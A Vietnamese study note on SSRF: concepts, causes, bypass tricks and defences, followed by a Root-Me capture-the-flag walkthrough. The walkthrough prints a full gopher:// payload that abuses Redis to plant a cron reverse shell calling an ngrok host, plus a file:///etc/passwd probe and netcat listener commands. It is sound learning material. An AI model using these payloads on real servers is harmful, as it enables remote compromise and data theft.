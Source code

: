 ```
+ Tìm hiểu về SSRF(Khái niệm, nguyên nhân, tác hại + 1 số cách bypass, cách phòng chống).
+ Giải các bài ssrf trên rootme.
```
# SSRF (Server Side Request Forgery)
## Khái niệm
SSRF là cuộc tấn công yêu cầu giả từ máy chủ cho phép kẻ tấn công thay đổi tham số yêu cầu từ đó có thể kiểm soát được yêu cầu của máy chủ, khi đó kẻ tấn công sẽ khiến máy chủ gửi yêu cầu đến 1 máy chủ khác hoặc chính nó nhằm mục đích xấu.
## Nguyên nhân
- Thiếu kiểm soát đầu vào: Khi máy chủ lấy tài nguyên từ tham số được kiểm soát người dùng mà không có kiểm tra hay xác thực thì kẻ tấn công có thể sử dụng nó để thực hiện yêu cầu.
- Sử dụng máy chủ sử dụng được các protocol không cần thiết (gopher://, dict://,...) và mở 1 số port có thể khai thác(redis, SMB,..)
- Sử dụng IP nội bộ: Khi ứng dụng web cho phép sử dụng IP nội bộ, kẻ tấn công từ đó có thể yêu cầu truy cập mà không cần xác thực
## Tác hại + 1 số cách bypass
### Tác hại
- Kẻ tấn công có thể truy cập vào các dữ liệu nhạy cảm trên máy chủ cũng như trên cục bộ, từ đó ăn cắp thông tin quan trọng của người dùng,...
- Vượt qua các lớp bảo mật, truy cập vào mạng cục bộ từ đó dẫn đến các cuộc tấn công khác nghiêm trọng hơn như RCE,...

### 1 số cách bypass
- Trong cuộc tấn công vào chính máy chủ:
  - Sử dụng IP thay thế `127.0.0.1`, `localhost` như: `2130706433` (dạng số nguyên), `127.0.1`, `127.1`, `017700000001`(dạng octal),...
  - Obfuscating các chuỗi bị filter như URL enconde,...
- Open redirection: Khi ứng dụng web redirect, quan soát các tham số trên URL từ đó có thể kiểm soát được.
- URL parsing: 
  - Sử dụng `@` để đưa phần phía trước thành credential 
  - Sử dụng `#` (fragment) để tạo ra tham số mới mà từ đó máy chủ đọc được và truy cập được nó.

- Encode, double encode,...
- Sử dụng các protocols:
  - `file://`: `file:///etc/passwd`
  - `dict://`:`dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>` => `ssrf.php?url=dict://attacker:11111/`
  - `gopher://`: `gopher://<server>:8080/_GET / HTTP/1.0%0A%0A`
  - ...
- Sử dụng tools:
  - <a href="https://github.com/swisskyrepo/SSRFmap" >SSRFMap</a> (phát hiện và khai thác SSRF)
  - <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a> (tạo payload khai thác MySQL, Redis,...)
 
Tham khảo: <a href="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery" >Hacktricks</a>
## Phòng chống
- Kiểm tra xác thực đầu vào: kiểm tra giới hạn phạm vi tham số được đưa vào URL ví dụ như giới hạn các địa chỉ IP có thể yêu cầu đến máy chủ...
- Sử dụng whitelist: chỉ định các URL hay các protocols, wrapper hợp lệ mà ứng dụng có thể kiểm soát được.
- Giới hạn truy cập máy chủ cục bộ, sử dụng cấu hình máy chủ hợp lý.
- Sử dụng tường lửa, thư viện bảo mật và thường xuyên cập nhật chúng.

# Root-me
## Server Side Request Forgery
Link: https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery

![image](https://user-images.githubusercontent.com/92881216/229118568-98447fe1-187c-47b2-8e71-deb5e1044c88.png)

Nhìn sơ qua thì web có 1 input url:

![image](https://user-images.githubusercontent.com/92881216/229118790-585c2ee8-144d-4c5f-b177-42feabf035b8.png)

Nhập thử với `https://www.google.com/` thì :

![image](https://user-images.githubusercontent.com/92881216/229119047-c4c6829d-33c3-4638-98b9-3e7b38490972.png)

Như vậy có thể web dùng curl để crawl lại web được nhập từ url. Tiếp tục thử với `file:///etc/passwd`:

![image](https://user-images.githubusercontent.com/92881216/229119398-f4062355-78d3-415b-b356-d9c87e3693ea.png)

Như vậy web có vẻ không filter gì, nhưng trong `/etc/passwd` cũng không có gì, tiếp tục thử với `http://localhost`

![image](https://user-images.githubusercontent.com/92881216/229119635-33516819-24a3-4445-9434-936e3f199173.png)

Như vậy nó có thể yêu cầu đến chính server nó. Mặt khác, SSRF có thể khai thác qua các cổng mở khác có thể dấn đến RCE, vì vậy dùng burp suite để test toàn bộ cổng với payload: `http://localhost:x` với x từ 1 -> 65535 và nhận thấy cổng `6379` bị Timeout.

Như vậy cổng 6379 được mở, đây là cổng mặc định của `redis`.<br>
> Redis 6379 là cổng mặc định mà Redis nghe các kết nối. Nó là một kho lưu trữ cấu trúc dữ liệu trong bộ nhớ phổ biến được sử dụng làm cơ sở dữ liệu, bộ đệm và trình môi giới tin nhắn. Đây là một cơ sở dữ liệu nhanh, có thể mở rộng và đáng tin cậy được sử dụng bởi nhiều trang web và ứng dụng phổ biến.

Lanh quanh 1 lúc trên mạng tìm được tool <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a>. Đây là tool tạo payload thông qua protocol `gopher` dùng để khai thác các dịch vụ như: mysql, redis, smtp,...

Sau 1 hồi tìm hiểu thì đây là cách khai thác:
- Đầu tiên dùng `ngrok` với command `ngrok tcp 1235` để tạo ra 1 tunel từ máy đến internet qua cổng 1235 (Đây là cổng để netcat nghe reverse shell) : 

![image](https://user-images.githubusercontent.com/92881216/229121608-cecd01ed-8214-4641-be29-06aa60d12811.png)

- Tiếp theo, dùng `Gopherus` tạo payload reverse shell với ip vừa tạo từ `ngrok`:

![image](https://user-images.githubusercontent.com/92881216/229122051-08bdffd2-3422-4427-9d5e-b52b474ca55c.png)

Tuy nhiên mặc định tool tạo ra có cổng 1234 nên cần đổi nó sang cổng đã tạo ở `ngrok` (ở đây là: 16632)

Payload khi đó là:
```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/16632%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
- Bây giờ chỉ việc dùng `nc -lvp 1235` rồi gửi payload thôi...

Mặc dù thử rất nhiều lần nhưng em vẫn bị lỗi :

![image](https://user-images.githubusercontent.com/92881216/229124019-26a57794-41a9-4685-8a5b-53ed77b445fe.png)




